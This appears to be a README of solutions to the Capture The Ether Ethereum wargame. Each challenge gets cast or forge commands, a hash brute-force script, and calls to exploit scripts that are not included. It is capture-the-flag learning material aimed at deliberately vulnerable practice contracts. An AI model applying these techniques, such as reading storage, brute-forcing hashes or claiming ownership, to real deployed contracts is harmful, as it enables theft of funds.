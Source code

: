 # Capture The Ether

**Challenges**
- [Warmup](#warmup)
  - [Deploy a contract](#deploy-a-contract)
  - [Call me](#call-me)
  - [Choose a nickname](#choose-a-nickname)
- [Lotteries](#lotteries)
  - [Guess the number](#guess-the-number)
  - [Guess the secret number](#guess-the-secret-number)
  - [Guess the random number](#guess-the-random-number)
  - [Guess the new number](#guess-the-new-number)
- [Math](#math)
  - [Token sale](#token-sale)
  - [Token whale](#token-whale)
  - [Retirement fund](#retirement-fund)
  - [Mapping](#mapping)
- [Miscellaneous](#miscellaneous)
  - [Assume ownership](#assume-ownership)
  - [Token bank](#token-bank)

## Warmup

### Deploy a contract
Just send a transaction via Metamask.

### Call me
```
cast send --private-key $PRIVATE_KEY $INSTANCE_ADDRESS "callme()"
```

### Choose a nickname
```
cast send --private-key $PRIVATE_KEY $INSTANCE_ADDRESS "setNickname(bytes32)" $(cast --to-bytes32 1)
```

## Lotteries

### Guess the number
```
cast send --private-key $PRIVATE_KEY $INSTANCE_ADDRESS "guess(uint8)" 42 --value 1ether
```

### Guess the secret number
```py
import sha3

for i in range(1 << 8):
    k = sha3.keccak_256()
    k.update(bytes([i]))
    if k.hexdigest() == "db81b4d58595fbbbb592d3661a34cdca14d7ab379441400cbfa1b78bc447c365":
        print(i)
        break
```
Result: `170`

```
cast send --private-key $PRIVATE_KEY $INSTANCE_ADDRESS "guess(uint8)" 170 --value 1ether
```

### Guess the random number
```
$ cast storage $INSTANCE_ADDRESS 0
0x0000000000000000000000000000000000000000000000000000000000000066
```

```
cast send --private-key $PRIVATE_KEY $INSTANCE_ADDRESS "guess(uint8)" 0x66 --value 1ether
```

### Guess the new number
```
forge script src/CaptureTheEther/GuessTheNewNumber/Exploit.s.sol:ExploitScript --private-key $PRIVATE_KEY --broadcast -s "run(address)" $INSTANCE_ADDRESS
```

## Math

### Token sale
```
forge script src/CaptureTheEther/TokenSale/Exploit.s.sol:ExploitScript --private-key $PRIVATE_KEY --broadcast -s "run(address)" $INSTANCE_ADDRESS
```

### Token whale
```
forge script src/CaptureTheEther/TokenWhale/Exploit.s.sol:ExploitScript --private-key $PRIVATE_KEY --broadcast -s "run(address)" $INSTANCE_ADDRESS
```

### Retirement fund
```
forge script src/CaptureTheEther/RetirementFund/Exploit.s.sol:ExploitScript --private-key $PRIVATE_KEY --broadcast -s "run(address)" $INSTANCE_ADDRESS
```

### Mapping
```
forge script src/CaptureTheEther/Mapping/Exploit.s.sol:ExploitScript --private-key $PRIVATE_KEY --broadcast -s "run(address)" $INSTANCE_ADDRESS
```

## Miscellaneous

### Assume ownership
```
cast send --private-key $PRIVATE_KEY $INSTANCE_ADDRESS "AssumeOwmershipChallenge()" 
cast send --private-key $PRIVATE_KEY $INSTANCE_ADDRESS "authenticate()"
```

### Token bank
```
forge script src/CaptureTheEther/TokenBank/Exploit.s.sol:ExploitScript --private-key $PRIVATE_KEY --broadcast -s "run(address)" $INSTANCE_ADDRESS
```
